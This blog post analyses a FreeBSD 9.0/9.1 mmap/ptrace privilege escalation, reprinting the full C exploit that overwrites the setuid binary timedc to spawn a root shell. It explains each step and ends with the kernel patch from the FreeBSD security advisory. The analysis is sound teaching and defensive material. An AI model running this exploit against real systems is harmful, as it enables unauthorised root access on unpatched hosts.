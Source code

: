 FreeBSD mmap+ptrace Privilege Escalation Exploit Analysis
##########################################################

:date: 20-06-2013
:time: 14:30
:tags: freebsd, security 
:category: Security!
:slug: freebsd-mmap-ptrace-exploit-analysis
:author: Hai Lang
:status: published

The Exploit
-----------------

.. epigraph::
    Happy Birthday FreeBSD! Now you are 20 years old and your security is the same as 20 years ago... :)
    -- Hunger <hunger@hunger.hu>

Saw this little birthday gift this morning from `Full Disclosure`_. Works on my FreeBSD VM. Here's a screenshot.

.. image:: |filename|../images/mmap_exploit.png
    :height: 178
    :width: 608
    :scale: 100%
    :align: left

And here's the exploit code

.. code-block:: cpp

    /*
     * FreeBSD 9.{0,1} mmap/ptrace exploit
     * by Hunger <fbsd9lul@hunger.hu>
     *
     * Happy Birthday FreeBSD!
     * Now you are 20 years old and your security is the same as 20 years ago... 
     *
     * Greetings to #nohup, _2501, boldi, eax, johnny_b, kocka, op, pipacs, prof,
     *              sd, sghctoma, snq, spender, s2crew and others at #hekkcamp:
     *                      I hope we'll meet again at 8@1470n 
     *
     * Special thanks to proactivesec.com
     *
     */

    #include <err.h>
    #include <errno.h>
    #include <unistd.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <fcntl.h>
    #include <sys/stat.h>
    #include <sys/mman.h>
    #include <sys/types.h>
    #include <sys/ptrace.h>
    #include <sys/wait.h>
    
    #define SH "/bin/sh"
    #define TG "/usr/sbin/timedc"
    
    int
    main(int ac, char **av) {
       int from_fd, to_fd, status;
       struct stat st;
       struct ptrace_io_desc piod;
       char *s, *d;
       pid_t pid;
    
       if (geteuid() == 0)  {
            setuid(0);
            execl(SH, SH, NULL);
            return 0;
       }
    
       printf("FreeBSD 9.{0,1} mmap/ptrace exploit\n");
       printf("by Hunger <fbsd9lul@hunger.hu>\n");
    
       if ((from_fd = open(av[0], O_RDONLY)) == -1 ||
            (to_fd = open(TG, O_RDONLY)) == -1)
                    err(1, "open");
    
       if (stat(av[0], &st) == -1)
            err(2, "stat");
    
       if (((s = mmap(NULL, (size_t)st.st_size, PROT_READ,
            MAP_SHARED, from_fd, (off_t)0)) == MAP_FAILED) ||
                    (d = mmap(NULL, (size_t)st.st_size, PROT_READ,
                            MAP_SHARED|MAP_NOSYNC, to_fd, (off_t)0)) == MAP_FAILED)
                                    err(3, "mmap");
    
       if ((pid = fork()) == -1)
            err(4, "fork");
    
       if (!pid) {
            if (ptrace(PT_TRACE_ME, pid, NULL, 0) == -1)
                    err(5, "ptraceme");
    
            return 0;
            }
    
       if (ptrace(PT_ATTACH, pid, NULL, 0) == -1)
            err(6, "ptattach");
    
       if (wait(&status) == -1)
            err(7, "wait");
    
       piod.piod_op = PIOD_WRITE_D;
       piod.piod_offs = d;
       piod.piod_addr = s;
       piod.piod_len  = st.st_size;
    
       if (ptrace(PT_IO, pid, (caddr_t)&piod, 0) == -1)
            err(8, "ptio");
    
       execl(TG, TG, NULL);
    
       return 0;
    }
    

Seems this vulnerability is already announced on 18-June-2013 and a patch was released with the 
`Security Advisory`_

As stated in the `Security Advisory`_, mmap is a POSIX-compliant system call that allows users to 
map files into memory by a process, and then can be access using memory operations. 

And the ptrace is a handy tracing and debugging facility that allows users to attach to and control
the traced process.

A security vulnerability exists in the virtual memory system that the permission checks are insufficient
which allows the tracing process to modify adresses to which the traced process itself does not have 
write access.

The Analysis
--------------------
The exploit code is quite simple, but it took me sometime to understand how `mmap(2)` and `ptrace(2)` works
under FreeBSD.

....................................

See the code below

.. code-block:: cpp

  if (geteuid() == 0)  {
       setuid(0);
       execl(SH, SH, NULL);
       return 0;
  }

At the begining of the exploit, it checks if the effective user id is 0. This will only be true when 
the suid bit is set for the executable. Of course it's not true at this point, because the exploit 
binary doesn't have suid set.

However, this code will eventually get injected into another executable program, which obviously should
have the suid bit, so that we can then setuid to 0, and get our lovely shell with root privilege.

....................................

.. code-block:: cpp

    #define TG "/usr/sbin/timedc"

    $ ls -l /usr/sbin/timedc
    -r-sr-xr-x  1 root  wheel  20688 Dec  4  2012 /usr/sbin/timedc

As you can see here, `timedc` is chosen for us to inject to. Note that it has suid bit.

So now what's left is to just inject this code into `timedc`, and when it gets called, we get a shell.

....................................

.. code-block:: cpp

  if ((from_fd = open(av[0], O_RDONLY)) == -1 ||
       (to_fd = open(TG, O_RDONLY)) == -1)
               err(1, "open");
  if (stat(av[0], &st) == -1)
         err(2, "stat");

Now it tries to open the compiled binary of itself (`av[0]`) as `from_fd`, and `/usr/sbin/timedc` as `to_fd`.
And then the stat of the exploit binary is saved in a stat struct called `st`. It'll later
be used to get the size of the exploit binary.

....................................

.. code-block:: cpp

   if (((s = mmap(NULL, (size_t)st.st_size, PROT_READ,
        MAP_SHARED, from_fd, (off_t)0)) == MAP_FAILED) ||
                (d = mmap(NULL, (size_t)st.st_size, PROT_READ,
                        MAP_SHARED|MAP_NOSYNC, to_fd, (off_t)0)) == MAP_FAILED)
                                err(3, "mmap");

`mmap` is used then to map the exploit binary into memory as `s` and `timedc` as `d`.

Refer to `mmap` man pages for details.

....................................

.. code-block:: cpp

  if ((pid = fork()) == -1)
       err(4, "fork");

  if (!pid) {
       if (ptrace(PT_TRACE_ME, pid, NULL, 0) == -1)
               err(5, "ptraceme");

       return 0;
       }

  if (ptrace(PT_ATTACH, pid, NULL, 0) == -1)
       err(6, "ptattach");

  if (wait(&status) == -1)
       err(7, "wait");

Next it forks a child process. `fork` returns 0 to the child process, and the child process
id to the parent process.

Since `!pid` is true only for the child process,  `PT_TRACE_ME` marks the child as the traced process, 
This is for the kernel to know that some other process is tracing this child.

`PT_ATTACH` is executed by the parent process, it attaches to the child to start controlling it.
Now we have two processes of the exploit, one tracing process, and one traced process.

Finally with `wait`, it suspends the calling process until status is available for terminated child
process, or a signal is received from kernel. Since `PT_TRACE_ME` is set for the child process,
a signal from kernel is expected. That'll explicitly tell us that we are now okay to start tracing.

....................................

.. code-block:: cpp

  piod.piod_op = PIOD_WRITE_D;
  piod.piod_offs = d;
  piod.piod_addr = s;
  piod.piod_len  = st.st_size;

  if (ptrace(PT_IO, pid, (caddr_t)&piod, 0) == -1)
       err(8, "ptio");


`piod` is a `ptrace_io_desc` struct, it'll be used by `PT_IO`

The `PT_IO` request allows reading and writing arbitrary amounts of data in the traced process's 
address space. In this case the addr argument should be a pointer to a `ptrace_io_desc` which is
defined as 

.. code-block:: cpp

    struct ptrace_io_desc {
            int     piod_op;        /* I/O operation */
            void    *piod_offs;     /* child offset */
            void    *piod_addr;     /* parent offset */
            size_t  piod_len;       /* request length */
    };

This is designed for us to write data to the child process, but instead this piece of code writes 
the exploit binary to `timedc`.

This is the exact point of the vulnerability, the parent tracing process controls the child traced
process to write data to `timedc`, which it originally has no privilege to do so.
The virtual memory system does not check if such write/read operation is allowed. 
The injection of the exploit code into `timedc` is finished.

....................................

.. code-block:: cpp

    execl(TG, TG, NULL);

Now it runs `timedc`. Since it has the exploit code injected, and it has suid set, 
we can now get a shell with root privilege. 

The Solution
------------------------
A patch is provided by the `Security Advisory`_. You can follow the instruction there to patch
your system.

.. code-block:: cpp

    --- sys/vm/vm_map.c     (revision 251636)
    +++ sys/vm/vm_map.c     (working copy)
    @@ -3761,6 +3761,12 @@ RetryLookup:;
                    vm_map_unlock_read(map);
                    return (KERN_PROTECTION_FAILURE);
            }
    +       if ((fault_typea & VM_PROT_COPY) != 0 &&
    +           (entry->max_protection & VM_PROT_WRITE) == 0 &&
    +           (entry->eflags & MAP_ENTRY_COW) == 0) {
    +               vm_map_unlock_read(map);
    +               return (KERN_PROTECTION_FAILURE);
    +       }

The patch adds security checking upon virtual memory copying.

Nice birthday gift Hunger, had some very fun reading and debugging.

*<< EOF*

.. _`Full Disclosure`: http://seclists.org/fulldisclosure/2013/Jun/161
.. _`Security Advisory`: http://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc

